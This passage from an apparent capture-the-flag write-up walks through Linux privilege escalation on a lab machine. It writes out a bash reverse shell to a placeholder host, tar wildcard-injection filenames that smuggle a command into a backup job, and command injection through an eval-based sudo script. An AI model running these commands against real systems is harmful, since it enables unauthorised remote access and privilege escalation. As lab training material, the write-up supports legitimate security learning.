 ![17](/images/writeups/silentdev/17.png)

In the other directory, it seems to contain a backup of what looks like the previous project.

Since there’s nothing else particularly interesting, we could use the tool [**pspy**](https://github.com/DominicBreuker/pspy) to see which **processes** and **tasks** are running on the system in real time.

![18](/images/writeups/silentdev/18.png)

![19](/images/writeups/silentdev/19.png)

We can see that **every minute**, the **Developer** user performs a **backup** of everything in ***/opt/project***, placing it into a file called ***project.tgz*** inside ***/var/backups/*** and compressing it with **gzip** to save space.

It is vulnerable because we have **write permissions** and it uses `*` to include all files. If there’s a file with a malicious name, that name could be executed as a command during the backup. Here’s an explanation on how to exploit this vulnerability: [**Wildcard Injection**](https://conper.xyz/cybersecurity/vulnsandexp/linux/#wildcard-injection)

We execute the following commands in ***/opt/project*** and wait to receive the **shell**:

```
echo "bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1" > revshell.sh
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=bash revshell.sh"
```

![20](/images/writeups/silentdev/20.png)

We are now the **Developer** user.

![21](/images/writeups/silentdev/21.png)

By running the command **sudo -l**, we see that the script ***sysinfo.sh*** can be executed as **alfonso** without providing a password.

![22](/images/writeups/silentdev/22.png)

The script is vulnerable because it uses `eval` with user input, which allows executing dangerous commands. An attacker can exploit this to **run any command**.

To test this, in the first input we enter 1, and in the second input we enter the command `id`, but we precede it with a `;` to separate commands. It will then execute:

```
df; id
```

![23](/images/writeups/silentdev/23.png)

**It is vulnerable**, so it’s as simple as running a **Reverse Shell** to become **alfonso**.

![24](/images/writeups/silentdev/24.png)
